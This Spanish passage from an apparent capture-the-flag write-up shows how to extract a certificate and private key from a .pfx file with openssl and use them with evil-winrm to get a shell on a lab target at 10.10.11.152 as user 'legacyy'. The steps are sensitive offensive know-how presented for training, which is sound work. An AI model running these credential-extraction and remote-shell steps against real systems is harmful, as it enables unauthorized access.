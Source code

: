     bashCopy code
    
    `evil-winrm -i ip_del_servidor -u usuario -s certificado.pem -k clave_privada.pem`
     o ` evil-winrm -i ip_del_servidor -c publicCert.pem -k priv-key.pem -S`
    Asegúrate de reemplazar `ip_del_servidor`, `usuario`, `certificado.pem` y `clave_privada.pem` con los valores correctos.

```php
❯ openssl pkcs12 -in legacyy_dev_auth.pfx  -clcerts -nokeys -out publicCert.pem
Enter Import Password:
```

```php
❯ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv-key.pem -nodes
Enter Import Password:
```

Luego podremos obtener los dos archivos `.pem` que necesitamos para acceder a la maquina victima.

![20240306095948.png](20240306095948.png)

# Escalada de privilegios

## Usuario : legacyy

Haciendo uso de `publicCert.pem` y `priv-key.pem` que haciendo uso de `evil-winrm` podremos obtener una shell.

```php
❯ evil-winrm -i 10.10.11.152 -c publicCert.pem -k priv-key.pem -S
```

![20240306100322.png](20240306100322.png)
